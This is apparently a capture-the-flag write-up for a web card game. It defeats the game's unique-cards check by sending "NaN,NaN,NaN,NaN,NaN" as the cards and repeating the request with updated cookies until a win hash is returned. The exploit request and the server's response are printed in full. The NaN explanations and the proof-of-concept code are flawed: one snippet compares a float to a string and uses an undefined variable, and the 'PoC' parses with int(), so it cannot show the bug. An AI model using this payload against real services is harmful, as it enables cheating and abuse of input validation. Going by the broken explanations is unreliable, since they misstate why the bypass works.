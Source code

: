 ## Objective


## Solution

#### Trigger an error
- Trigger an error by injecting hex data 0x5

#### Code Analysis
```
{"play":"0x5,6,7,8,9"}
```
```python3
# Error in function named play_cards:

def play_cards(csv_card_choices, request_id):
    try:
        f = StringIO(csv_card_choices)
        reader = csv.reader(f, delimiter=',')
        player_cards = []

        for row in reader:
            for n in row:
                n = float(n)
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })

        player_cards = sorted(player_cards, key=lambda d: d['num'])
        shiftys_cards = shifty_mcshuffles_choices(player_cards)
        all_cards = []

        for p in player_cards:
            if p['num'] not in [x['num'] for x in shiftys_cards]:
                all_cards.append(p)

        for s in shiftys_cards:
            if s['num'] not in [x['num'] for x in player_cards]:
                all_cards.append(s)

        maxItem = False
        minItem = False

        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

        p_starting_value = int(session.get('player', 0))
        s_starting_value = int(session.get('shifty', 0))

        if bool(maxItem):
            if maxItem['owner'] == 'p':
                session['player'] = str(p_starting_value + 1)
            else:
                session['shifty'] = str(s_starting_value + 1)

        if bool(minItem):
            if minItem['owner'] == 'p':
                session['player'] = str(int(session.get('player', 0)) + 1)
            else:
                session['shifty'] = str(int(session.get('shifty', 0)) + 1)

        score_message, win_lose_tie_na = win_lose_tie_na_calc(
            int(session.get('player', 0)), int(session.get('shifty', 0))
        )

        play_message = 'Ha, we tied!'

        if int(session['player']) - p_starting_value > int(session['shifty']) - s_starting_value:
            play_message = 'Darn, how did I lose that hand!'
        elif int(session['player']) - p_starting_value < int(session['shifty']) - s_starting_value:
            play_message = 'I win and you lose that hand!'

        if win_lose_tie_na in ['w', 'l', 't']:
            session['player'] = '0'
            session['shifty'] = '0'

        msg = {
            "request": True,
            "data": {
                'player_cards': player_cards,
                'shiftys_cards': shiftys_cards,
                'maxItem': maxItem,
                'minItem': minItem,
                'player_score': int(session['player']),
                'shifty_score': int(session['shifty']),
                'score_message': score_message,
                'win_lose_tie_na': win_lose_tie_na,
                'play_message': play_message,
            }
        }

        if win_lose_tie_na == "w":
            msg["data"]['conduit'] = {
                'hash': hmac.new(submissionKey.encode('utf8'), request_id.encode('utf8'), sha256).hexdigest(),
                'resourceId': request_id
            }

        return jsonify(msg)

    except Exception as e:
        err = f"{type(e).__name__} at line {e.__traceback__.tb_lineno} of {__file__}: {e}"
        raise ValueError(err)

```
#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When addedd or multiplied or some other operation is performed with the ```nan``` it is nan which wins
```python
numbers = 1337
boo = float("NaN")
magic = boo+numbers
print(magic)
```
```output
>nan
```
#### NaN concepts 2

```python
boo2 = float("NaN")
print(boo)
if boo2 == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN")

//There is no NaN
```

#### NaN injection PoC
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = int(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```


#### Forge for the win
- Send JSON data as NaN for all the cards number
- We would bypass the unique card check due the the concept 2 above
- 
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
      "maxItem":{
         "num":"NaN",
         "owner":"p"
      },
      "minItem":{
         "num":"NaN",
         "owner":"p"
      },
      "play_message":"Darn, how did I lose that hand!",
      "player_cards":[
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         }
      ],
      "player_score":0,
      "score_message":"Darn, you win!",
      "shifty_score":0,
      "shiftys_cards":[
         {
            "num":0.0,
            "owner":"s"
         },
         {
            "num":9.0,
            "owner":"s"
         }
      ],
      "win_lose_tie_na":"w"
   },
   "request":true
}
```
